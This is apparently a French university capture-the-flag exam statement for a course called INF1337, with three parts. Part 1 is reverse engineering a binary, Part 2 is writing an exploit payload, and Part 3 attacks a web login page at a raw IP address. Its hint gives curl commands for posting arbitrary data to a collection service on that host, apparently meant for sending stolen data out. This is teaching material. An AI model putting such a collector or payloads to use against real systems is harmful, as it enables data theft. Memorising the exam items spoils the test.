

# Reverse Engineering

Cette section de l'examen est de type _capture the flag_ (CTF) séparé en
3 parties.

Les flags sont de la forme `flag-XXXXXXXXXXXX`.

## Partie 1
Dans le cas de votre laboratoire de INF1337, vous devez analyser un exécutable
binaire Linux 86 afin d'y trouver des flags cachés.

* Flag facile (1pts)
* Flag moyen (2pts)
* Flag difficile (4pts)

## Partie 2
Vous avez un autre exécutable Linux x86 ainsi qu'une partie du code source.
Vous devez écrire un exploit afin d'obtenir le flag (3pts). Vous devez
soumettre le code de votre payload (Python, shell, etc). Aucun point ne sera
attribuer sans un payload.

## Partie 3
Le final de INF1337 arrive à grand pas. Sachant que vous n'avez pas étudier de
la session, vous cherchez désespérément un ancien examen. À votre grand
mécontentement, le professeur ne fournit aucun ancien examen et il n'y en a
pas sur l'AEP. Cela dit, vous avez entendu parler du fameux dropbox de la
communauté libanaise sur Poly-Honnête. Vous décidez alors d'aller y jeter un
coup d'oeil... [ici](http://68.183.119.125/login).

Il y a un flag (3pts).

### Hint

Si ça peut vous être utile, vous pouvez utiliser le service suivant pour
enregister des données.

```sh
$ export ROUTE=test
$ export DATA=very_important_data
$ curl -X GET "http://68.183.119.125:5000/post/$ROUTE?DATA=$DATA"
```

```sh
$ export ROUTE=test
$ curl -X GET "http://68.183.119.125:5000/get/$ROUTE"
very_important_data
```
